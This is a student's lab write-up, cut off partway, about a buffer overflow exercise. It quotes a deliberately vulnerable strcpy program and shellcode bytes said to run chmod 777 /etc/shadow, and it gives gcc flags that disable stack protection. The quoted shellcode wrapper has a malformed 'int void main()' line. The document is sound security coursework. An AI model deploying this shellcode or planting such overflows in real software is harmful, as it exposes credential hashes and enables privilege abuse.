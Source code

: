 # Lab #1, 22110012, BachDucCanh, INSE331280E_01FIE

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Run the Docker virtual machine.
We will run the Docker virtual machine by this code: 

```docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab```

![image](https://github.com/user-attachments/assets/8da68495-8a51-4e2e-b0d9-6886009cf5bb)


### 2. Compile the vuln code and shellcode program

We will compile file c with this code:

  ``` gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 ```

``` gcc shellcode.c -o shellcode -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 ```


### 3. Draw stackframe
Base on code of vuln.c, we have this stackframe:
```